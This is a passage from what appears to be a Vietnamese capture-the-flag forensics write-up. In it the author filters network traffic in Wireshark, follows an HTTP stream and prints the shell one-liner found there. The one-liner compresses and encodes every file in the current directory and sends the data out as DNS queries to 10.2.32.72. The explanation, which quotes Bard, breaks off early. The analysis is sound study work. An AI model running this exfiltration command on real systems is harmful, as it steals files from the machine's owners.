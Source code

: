 Ta sử dụng Display Filter với lệnh ``not dns`` để lọc ra các packet không phải là DNS.

![1700328829074](image/Writeup/1700328829074.png)

Ở dòng thứ 7, ta thấy 1 HTTP mà có 1 đoạn code, ta thử follow coi sao
![1700328895181](image/Writeup/1700328895181.png)

Sau khi follow HTTP, thì ta được đoạn code như sau:

```
for f in $(ls .); do s=4;b=50;c=0; for r in $(for i in $(gzip -c $f| base64 -w0 | sed "s/.\{$b\}/&\n/g");do if [[ "$c" -lt "$s"  ]]; then echo -ne "$i-."; c=$(($c+1)); else echo -ne "\n$i-."; c=1; fi; done ); do dig +tries=1 +timeout=1 +noidnin +noidnout @10.2.32.72 `echo -ne $r$(echo $f|base58)|tr "+" "}"|tr "/" "{"` +short; done ; done
```

Theo như Bard nói thì:

- ``for f in $(ls .); do``: Dòng này lặp qua tất cả các tệp trong thư mục hiện tại và gán tên tệp cho biến f. Ví dụ: nếu thư mục hiện tại chứa các tệp file1.txt, file2.txt, và file3.txt, thì vòng lặp sẽ thực hiện các lần lặp sau:
